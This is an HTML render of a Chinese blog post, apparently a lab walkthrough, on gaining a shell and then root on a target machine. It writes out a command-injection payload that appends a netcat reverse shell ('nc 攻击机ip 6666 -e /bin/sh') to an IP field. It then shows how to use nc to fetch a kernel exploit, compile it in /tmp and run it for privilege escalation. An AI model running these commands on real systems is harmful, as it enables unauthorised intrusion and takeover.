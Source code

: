       .post a {
        color: #28A1C5;
      }
    </style>
  </head>
  <body>
    <div class="container">
      <div class="post">
        <h1 class="title">level 2 （nc与内核漏洞提权）</h1>
        <div class="show-content">
          <p><a href="http://www.jianshu.com/p/b94ae315b511" target="_blank">续上篇</a> </p><blockquote><p><i>192.168.1.1；/usr/local/bin/nc 攻击机ip 6666 -e /bin/sh</i></p></blockquote><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-f003ce6d25a119fb.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-f003ce6d25a119fb.PNG?imageMogr2/auto-orient/strip" data-image-slug="f003ce6d25a119fb" data-width="665" data-height="223"><br><div class="image-caption"></div>
</div><p>于是获得了 sh类型的shell</p><p>攻击机输入下面命令，目的是监听666端口，如果有主机连上它，就发送hole.c</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-2114924bd6434d7b.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-2114924bd6434d7b.PNG?imageMogr2/auto-orient/strip" data-image-slug="2114924bd6434d7b" data-width="573" data-height="110"><br><div class="image-caption"></div>
</div><p>shell上输入下面命令，目的是连接攻击机ip和端口。获得了hole.c文件，在屏幕上输入了该文件。但没办法光在shell上输出没有用，不能写入到一个文件中去。。</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-ec9440fbfa8408bc.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-ec9440fbfa8408bc.PNG?imageMogr2/auto-orient/strip" data-image-slug="ec9440fbfa8408bc" data-width="379" data-height="128"><br><div class="image-caption"></div>
</div><p>如果输入nc，会显示没有找到该命令</p><p>输入 /usr/local/bin/nc 攻击IP 666 &gt; file   ，意思是将666端口的文件存为file，但是显示没有这样的文件或目录，为了弄清问题出在哪，输入touch file</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-2e00fc7729d055e9.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-2e00fc7729d055e9.PNG?imageMogr2/auto-orient/strip" data-image-slug="2e00fc7729d055e9" data-width="449" data-height="51"><br><div class="image-caption">图4<br>
</div>
</div><p>如果touch file，会显示不能新建file文件，请求拒绝。还是权限不够的问题吧</p><hr><p>尝试wget也是权限不够，nc也没用。</p><p>于是用 ls 查看权限，唉都是管理员权限的文件</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-06c74cc99f5263ac.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-06c74cc99f5263ac.PNG?imageMogr2/auto-orient/strip" data-image-slug="06c74cc99f5263ac" data-width="471" data-height="115"><br><div class="image-caption"></div>
</div><p>用pwd查看当前路径，cd ~</p><p>找到了一个有权限的 /tmp</p><p>于是执行图4，这次没有报错</p><p>gcc -o yes file</p><p>显示不知道file的类型</p><p>mv file file.c 更改文件名</p><p>gcc -o yes file.c</p><p>./yes</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-0694608ca60d4b67.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-0694608ca60d4b67.PNG?imageMogr2/auto-orient/strip" data-image-slug="0694608ca60d4b67" data-width="348" data-height="98"><br><div class="image-caption"></div>
</div><p>权限到手！- v -</p>
        </div>
      </div>
    </div>
  </body>
</html>
